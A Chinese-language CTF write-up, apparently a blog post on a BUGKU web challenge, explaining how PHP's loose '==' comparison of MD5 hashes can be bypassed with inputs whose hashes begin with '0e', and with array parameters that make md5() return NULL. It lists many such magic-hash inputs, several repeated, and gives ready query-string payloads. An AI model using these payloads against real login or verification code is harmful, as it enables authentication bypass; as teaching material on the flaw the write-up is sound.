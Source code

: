 # 利用==比较漏洞(MD5篇)

[BUGKU-WEB 备份是个好习惯-CSDN博客](https://blog.csdn.net/qq_36292543/article/details/136249593)



## 方法一：利用==漏洞

攻击者可以利用这一漏洞，通过输入一个经过哈希后以”0E”开头的字符串，即会被PHP解释为0，如果数据库中存在这种哈希值以”0E”开头的密码的话，他就可以以这个用户的身份登录进去，尽管并没有真正的密码。

- PHP在处理哈希字符串时，会利用”!=”或”==”来对哈希值进行比较，它把每一个以”0E”开头的哈希值都解释为0，所以如果两个不同的密码经过哈希以后，其哈希值都是以”0E”开头的，那么PHP将会认为他们相同，都是0。
- 攻击者可以利用这一漏洞，通过输入一个经过哈希后以”0E”开头的字符串，即会被PHP解释为0，如果数据库中存在这种哈希值以”0E”开头的密码的话，他就可以以这个用户的身份登录进去，尽管并没有真正的密码

```php
纯数字类：(上面为原来的，下面为经过MD5转换的)
 
s878926199a
0e545993274517709034328855841020

s155964671a
0e342768416822451524974117254469

s214587387a
0e848240448830537924465865611904

s214587387a
0e848240448830537924465865611904

s878926199a
0e545993274517709034328855841020

s1091221200a
0e940624217856561557816327384675

s1885207154a
0e509367213418206700842008763514

s1502113478a
0e861580163291561247404381396064

s1885207154a
0e509367213418206700842008763514

s1836677006a
0e481036490867661113260034900752

s155964671a
0e342768416822451524974117254469

s1184209335a
0e072485820392773389523109082030

s1665632922a
0e731198061491163073197128363787

s1502113478a
0e861580163291561247404381396064

s1836677006a
0e481036490867661113260034900752

s1091221200a
0e940624217856561557816327384675

s155964671a
0e342768416822451524974117254469

s1502113478a
0e861580163291561247404381396064

s155964671a
0e342768416822451524974117254469

s1665632922a
0e731198061491163073197128363787

s155964671a
0e342768416822451524974117254469

s1091221200a
0e940624217856561557816327384675

s1836677006a
0e481036490867661113260034900752

s1885207154a
0e509367213418206700842008763514

s532378020a
0e220463095855511507588041205815

s878926199a
0e545993274517709034328855841020

s1091221200a
0e940624217856561557816327384675

s214587387a
0e848240448830537924465865611904

s1502113478a
0e861580163291561247404381396064

s1091221200a
0e940624217856561557816327384675

s1665632922a
0e731198061491163073197128363787

s1885207154a
0e509367213418206700842008763514

s1836677006a
0e481036490867661113260034900752

s1665632922a
0e731198061491163073197128363787

s878926199a
0e545993274517709034328855841020
 
 
大写字母类：
QLTHNDT
0e405967825401955372549139051580
 
QNKCDZO
0e830400451993494058024219903391
 
EEIZDOI
0e782601363539291779881938479162
 
TUFEPMC
0e839407194569345277863905212547
 
UTIPEZQ
0e382098788231234954670291303879
 
UYXFLOI
0e552539585246568817348686838809
 
IHKFRNS
0e256160682445802696926137988570
 
PJNPDWY
0e291529052894702774557631701704
 
ABJIHVY
0e755264355178451322893275696586
 
DQWRASX
0e742373665639232907775599582643
 
DYAXWCA
0e424759758842488633464374063001
 
GEGHBXL
0e248776895502908863709684713578
 
GGHMVOE
0e362766013028313274586933780773
 
GZECLQZ
0e537612333747236407713628225676
 
NWWKITQ
0e763082070976038347657360817689
 
NOOPCJF
0e818888003657176127862245791911
 
MAUXXQC
0e478478466848439040434801845361
 
MMHUWUV
0e701732711630150438129209816536

```

也就是说如果我输入 ?key1=MAUXXQC&key2=MMHUWUV ,都会被解析为key1 = key2 = 0

可以绕过通过MD5转换后的两变量之前的 == 弱比较

！！！注意如果是 === 就需要完全相同了

## 方法二：md5()函数无法处理数组，如果传入的为数组，会返回NULL，所以两个数组经过加密后得到的都是NULL,也就是相等的。

```php
?kkeyey1[]=no&kkeyey2[]=so
```



## 其他:passwd=1234567a==1234567且不属于数字和数字字符串
